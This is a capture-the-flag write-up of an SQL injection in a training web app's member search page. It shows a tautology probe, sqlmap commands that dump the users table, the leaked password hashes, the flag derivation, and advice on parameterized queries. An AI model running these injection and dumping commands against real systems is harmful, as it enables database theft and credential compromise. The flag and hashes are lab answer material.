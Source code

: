 # 01_Unsercure_Search_By_Id_SQLINJECTION

Unsecure sql request form in the page:
http://192.168.99.100/index.php?page=member

## How to see it

Go on the page mentionned before.
Whenever you are looking for an SQL injection you want to check if the page is injectable. You can either check this with sqlmap
or you can try to type an SQL request responding true everytime such like this one:
```bash
1 or 1=1
```
Whenever we type this one we realise that this page can be injected. This is a major security problem.

## How to abuse of it

We are going to use a tool which will help us to inject this sql. It is Sqlmap.
So we can basically print the list of the database that we are intersted in with this command:
```bash
sqlmap -u http://192.168.99.100/index.php\?page\=member\&id\=1\&Submit\=Submit\# --tables
```
Then we can make a dump of the database we are interested in, so the user one:
```bash
sqlmap -u http://192.168.99.100/index.php\?page\=member\&id\=1\&Submit\=Submit\# --dump -T users
```
And here we are now we can decrypt the password with the asked in the command request:
```bash
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+------------------------------------------------+
| user_id | town      | planet | country   | last_name | first_name     | Commentaire                                                                   | countersign                                    |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+------------------------------------------------+
| 1       | Honolulu  | EARTH  | America   | Obama     | Barack Hussein | Amerca !                                                                      | 2b3366bcfd44f540e630d4dc2b9b06d9               |
| 2       | Berlin    | Earth  | Allemagne | Hitler    | Adolf          | Ich spreche kein Deutsch.                                                     | 60e9032c586fb422e2c16dee6286cf10 (oktoberfest) |
| 3       | Moscou    | Earth  | Russia    | Staline   | Joseph         | ????? ????????????? ?????????                                                 | e083b24a01c483437bcf4a9eea7c1b4d               |
| 5       | 42        | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28               |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+------------------------------------------------+
```

```bash
5ff9d0165b4f92b14994e5c685cdce28 -> FortyTwo -> fortytwo -> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## How to patch it

Don't use dynamic SQL – don't construct queries with user input: Even data sanitization routines can be flawed.
So use prepared statements, parameterized queries or stored procedures instead whenever possible. ORM IS GOOD USE IT
